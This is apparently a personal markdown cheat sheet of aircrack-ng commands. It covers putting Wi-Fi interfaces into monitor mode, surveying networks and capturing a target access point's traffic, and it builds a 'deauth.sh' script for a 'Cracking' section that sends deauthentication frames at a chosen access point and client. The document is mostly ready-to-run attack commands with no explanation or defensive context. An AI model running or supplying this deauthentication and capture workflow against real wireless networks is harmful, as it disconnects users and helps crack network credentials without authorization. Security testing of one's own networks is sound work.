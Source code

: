 ## General

### AP `a`
```bash
1 ap
2 sta
3 ap+sta
```

### Filter `s`
```bash
10 first seen
```

## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor

### Generic
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan0
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 1 --output-format csv --write sessions \
            --band bg wlan0
```

### Target
```bash
cat > target.sh << "EndOfMessage"
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 5 --output-format pcap --write target \
            --channel 1 --bssid CHANGEME wlan0
EndOfMessage

chmod +x target.sh
```

## Cracking
```bash
cat > deauth.sh << "EndOfMessage"
iwconfig wlan1 channel $1

aireplay-ng -0 99 -D -a $2 -c $3 wlan1
EndOfMessage

chmod +x deauth.sh
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
